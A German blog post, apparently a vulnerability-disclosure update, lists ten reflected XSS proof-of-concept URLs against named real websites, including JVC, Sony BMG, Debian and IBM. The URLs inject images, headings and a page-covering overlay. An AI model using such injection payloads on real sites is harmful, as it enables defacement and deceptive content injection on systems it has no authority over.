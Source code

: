 <html><body><p>Und hier sind zehn weitere nette Cross Site Scriptings, unter anderem ein paar namhafte Hardware Hersteller und Software-Giganten...<br>

Aber zunächst eine kleine Statusmeldung wegen den alten Meldungen:<br>

Auf Mail Nummer 1 kamen keine neuen Antworten, auf Mail Nummer 2 erhielt ich ein BOUNCE von RTL, deren Server sei nicht für Mails an Clipfish.de zuständig (laut DNS ist er das), ein Auto-Reply von hamburg.de und tatsächlich hat es Andi von netsplit.de als einziger Mensch geschafft meine Mail zu lesen, zu verstehen und zu Herzen zu nehmen. Der Fehler ist behoben, un dich erhielt einen netten Gruß und Dank per Mail. An dieser Stelle deswegen auch Dank an Andi für das Supporten von uns kleinen IRC-Netzwerken, aber ich glaube er hat in meiner formellen Mail gar nicht erkannt, dass er mich eigentlich kennt ;-)<br>

<br>

Jaja, ihr wollt Links, HIER:<br>

<br>

<a href="http://jdl.jvc-europe.com/search.php?search_keywords=%3Cbr%3E%3Cimg%20src=http://www.vidsonix.com/vidsonixnew/snovamd.gif%3E%3Cbr%3E%3Ch1%3EGreetz%20from%20Vidsonix%3C/h1%3E&amp;search_type=product&amp;x=0&amp;y=0" target="_blank">jvc-europe.com</a><br>

<a href="http://real.de/container/kundenservice,detailsuche.php?svSearchValue=%22%3E%3Cbr%3E%3Cimg%20src=http://aldi.de/aldi_sued_logo.gif%3E%3Ch1%3EALDI%20ist%20besser!!!%3C/h1%3E&amp;cont=kundenservice,detailsuche&amp;svQuicksearch=1" target="_blank">real.de</a><br>

<a href="http://www.sonybmg.de/artists.php?surftipps=%23&amp;artist=%23&amp;searchartist2=%22%3E%3Cdiv%20style=position:fixed;z-index:999;top:0px;left:20px;width:1500px;height:1500px;color:red;background-color:white;font-size:32pt%3E%3Cbr%3EDRM%20ist%20SCHEISSE!%3Cbr%3E%3Cbr%3ECreative%20Commons%20f%26uuml%3Br%20ALLE!%3C/div%3E" target="_blank">sony-bmg.de</a><br>

<a href="http://buildd.debian.org/build.php?pkg=%3Cimg%20src=http://img.microsoft.com/global/834d62a5-3d8f-4ee8-8b7f-f5f6dcf9728b.gif%3E" target="_blank">debian.org</a><br>

<a href="http://www-307.ibm.com/pc/support/site.wss/document.do?lndocid=%3Cimg%20src=%22http://www.microsoft.com/library/toolbar/3.0/images/banners/ms_masthead_ltr.gif%22%3E" target="_blank">ibm.com</a><br>

<a href="http://www.linspire.com/search_results.php?q=%5C%22%3E%3Ch1%3EUse%20the%20better%20OS:%20Debian%3C%22" target="_blank">linsprire.com</a><br>

<a href="http://finanzen.sueddeutsche.de/search.php?search=%3Ch1%3EBILD%20Leser%20wissen%20NiX!%3C/h1%3E%3Cimg%20src=http://www.bild.t-online.de/BTO/System/Bilder/logo.gif%3E%3Cbr%3E" target="_blank">sueddeutsche.de</a><br>

<a href="http://www1.medion.de/site/service_~u~_support/treiber_~u~_updates/?param=%3Cbr%3E%3Ch1%3EGute%20Laptops:%3C/h1%3E%3Cimg%20src=%22http://www.rucigaj.com/blog/wp-content/uploads/2006/03/ibm-thinkpad-t22-logo18.png%22%3E%3Cbr%3E&amp;op=search&amp;lang=de&amp;type=MED" target="_blank">medion.de</a><br>

<a href="http://teufel.de/de/Suche/index.cfm?search=%3Ch1%3ESorry,%20Teufel%20ist%20besser,%20aber%20das%20ist%20XSS:%3C/h1%3E%3Cimg%20src=%22http://www.magnat.de/image/logo_magnat.gif%22%3E%3Cbr%3E&amp;cfaction=suchen" target="_blank">teufel.de</a><br>

<a href="http://www.msi-computer.de/suche.php?suchtext=%22%3E%3Ch1%3EMSI%20ist%20gut,%20ASUS%20ist%20besser!%3C/h1%3E%3Cimg%20src=http://www.asus.de/490/images/public/asus_above_01.jpg%3E%3Cbr%3E" target="_blank">msi-computer.de</a><br>

<br>

Gleich mal wieder eine nette Mail rausschicken und auf die BOUNCEs freuen.<br>

Schönen Sonntag-Abend noch.<br>

<br>

PS: Vielen Dank an den netten Kölner, der XSS in meinem Gästebuch ausprobiert hat. htmlspecialchars() ist sowas von seKure ;-)</p></body></html>